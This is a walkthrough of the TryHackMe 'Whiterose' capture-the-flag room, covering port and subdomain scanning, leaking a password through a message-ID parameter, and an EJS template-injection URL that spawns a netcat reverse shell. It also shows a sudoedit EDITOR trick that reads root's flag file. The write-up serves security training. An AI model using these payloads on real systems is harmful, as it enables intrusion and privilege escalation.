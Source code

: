 ```yaml
---
title: TryHackMe Whiterose Writeup
date: 2024-11-03
tags: [tryhackme, ctf]
author: nandakishor
---
```

![alt text](../assets/images/whiterose/5f9c7574e201fe31dad228fc-1726214297023.png)
#WhiteRose
In my journey through the TryHackMe Whiterose challenge, I kicked things off with thorough enumeration using Rustscan and Nmap to uncover active ports and services on the target. This led me to investigate some interesting subdomains that eventually exposed potential entry points. As I explored further, I found crucial credentials and identified a vulnerable URL parameter, which I then leveraged to uncover sensitive data needed to access restricted areas of the website.
##recon
```
┌──(kali㉿kali)-[~/tmp]
└─$ rustscan -a 10.10.68.10 
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
😵 https://admin.tryhackme.com

[~] The config file is expected to be at "/home/kali/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.68.10:22
Open 10.10.68.10:80
^C
                                                                                                                     
┌──(kali㉿kali)-[~/tmp]
└─$ rustscan -a 10.10.68.10 -- -sCV
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Real hackers hack time ⌛

[~] The config file is expected to be at "/home/kali/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.68.10:22
Open 10.10.68.10:80
[~] Starting Script(s)
[>] Running script "nmap -vvv -p {{port}} {{ip}} -sCV" on ip 
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:07:96:0d:c4:b6:0c:d6:22:1a:e4:6c:8e:ac:6f:7d (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCddbej9ZSf75uuDvLDeym5AYM+loP/3W862HTWjmksh0UuiuIz8UNTrf3ZpgtBej4y3E3EKvOmYFvJHZpFRV/hQBq1oZB3+XXVzb5RovazcnMgvFxI4y5nCQM8qTW09YvBOpzTyYmsKjVRJOfLR+F87g90vNdZ/u8uVl7IH0B6NmhGlCjPMVLRmhz7PuZih38t0WRWPruEY5qGliW0M3ngZXL6MmL1Jo146HtM8GASdt6yV9U3GLa3/OMFVjYgysqUQPrMwvUrQ8tIDnRAH1rsKBxDFotvcfW6mJ1OvojQf8PEw7iI/PNJZWGzkg+bm4/k+6PRjO2v/0V98DlU+gnn
|   256 ba:ff:92:3e:0f:03:7e:da:30:ca:e3:52:8d:47:d9:6c (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNMBr/zXjVQItMqdVH12/sZ3rIt2XFsPWRCy4bXCE7InUVg8Q9SVFkOW2LAi1UStP4A4W8yA8hW+1wJaEFP9ffs=
|   256 5d:e4:14:39:ca:06:17:47:93:53:86:de:2b:77:09:7d (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIdJAkvDVqEAbac77yxYfkM0AU8puWxCyqCBJ9Pd9zCi
80/tcp open  http    syn-ack nginx 1.14.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
Try to access the website
![alt text](<../assets/images/whiterose/Screenshot 2024-11-03 095753.png>)

add this subdomain to the etc/hosts
![alt text](<../assets/images/whiterose/Screenshot 2024-11-03 095921.png>)

I scaned for hidden directories but there is none , so i tried to enumerate subdomains

```
┌──(kali㉿kali)-[~/tmp]
└─$ gobuster vhost -u http://cyprusbank.thm/ -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt --append-domain
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://cyprusbank.thm/
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: admin.cyprusbank.thm Status: 302 [Size: 28] [--> /login]
```

so add `admin.cyprusbank.thm` to etc/hosts
![alt text](<../assets/images/whiterose/Screenshot 2024-11-03 100339.png>)

Login with the creds theat given in this room 

`Olivia Cortez:olivi8`
![alt text](<../assets/images/whiterose/Screenshot 2024-11-03 100443.png>)


we have to find a phone number

![
](<../assets/images/whiterose/Screenshot 2024-11-03 100552.png>)


![alt text](<../assets/images/whiterose/Screenshot 2024-11-03 100722.png>)

`http://admin.cyprusbank.thm/messages/?c=5`
the url is exploitable

so try to change the pointer value and get some info
![alt text](<../assets/images/whiterose/Screenshot 2024-11-03 100816.png>)

we can see a password

in `http://admin.cyprusbank.thm/messages/?c=0`

so login as `Gayle Bev`

![alt text](<../assets/images/whiterose/Screenshot 2024-11-03 100956.png>)

then you can find the phone number 

![alt text](<../assets/images/whiterose/Screenshot 2024-11-03 101130.png>)

Use SSTI vulnerability to get the shell

![alt text](<../assets/images/whiterose/Screenshot 2024-11-03 101552.png>)

![alt text](<../assets/images/whiterose/Screenshot 2024-11-03 101634.png>)

`http://local:3000/page?id=2&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('nc -e sh 127.0.0.1 1337');s
`

modify this to exploit

![alt text](<../assets/images/whiterose/Screenshot 2024-11-03 102621.png>)
![alt text](<../assets/images/whiterose/Screenshot 2024-11-03 102635.png>)

so pass a reverse shell to it


![alt text](<../assets/images/whiterose/Screenshot 2024-11-03 102825.png>)

save this to index.html and execute
![alt text](<../assets/images/whiterose/Screenshot 2024-11-03 103031.png>)

![alt text](<../assets/images/whiterose/Screenshot 2024-11-03 103110.png>)


get the shell
![alt text](<../assets/images/whiterose/Screenshot 2024-11-03 103137.png>)


```
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
web@cyprusbank:~/app$ export TERM=xterm
export TERM=xterm
web@cyprusbank:~/app$ ^Z
zsh: suspended  nc -nvlp 443
                                                                                                                     
┌──(kali㉿kali)-[~/tmp]
└─$ stty -raw echo; fg
[1]  + continued  nc -nvlp 443


web@cyprusbank:~/app$ 


```
upgrade the shell
```
web@cyprusbank:~$ cat user.txt
cat user.txt
THM{4lways_u*******p3nd3nc!3s}
web@cyprusbank:~$ 
```

```
web@cyprusbank:~$ sudo -l
sudo -l
Matching Defaults entries for web on cyprusbank:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User web may run the following commands on cyprusbank:
    (root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
web@cyprusbank:~$ 
```

```
web@cyprusbank:~/app$ export EDITOR="cat -- /root/root.txt"
export EDITOR="cat -- /root/root.txt"
web@cyprusbank:~/app$ sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
thmo sudoedit /etc/nginx/sites-available/admin.cyprusbank.t
sudo: sudoedit doesn't need to be run via sudo
sudo: --: editing files in a writable directory is not permitted
THM{4nd_flag***4g3s}
server {
  listen 80;
    
  server_name admin.cyprusbank.thm;
    
  location / {
    proxy_pass http://localhost:8080;
    proxy_http_version 1.1;
    proxy_set_header Upgrade $http_upgrade;
    proxy_set_header Connection 'upgrade';
    proxy_set_header Host $host;
    proxy_cache_bypass $http_upgrade;
  }
}
sudo: /root/root.txt unchanged
sudo: /etc/nginx/sites-available/admin.cyprusbank.thm unchanged
web@cyprusbank:~/app$ 
```
root flag `THM{4nd_flag***4g3s}`

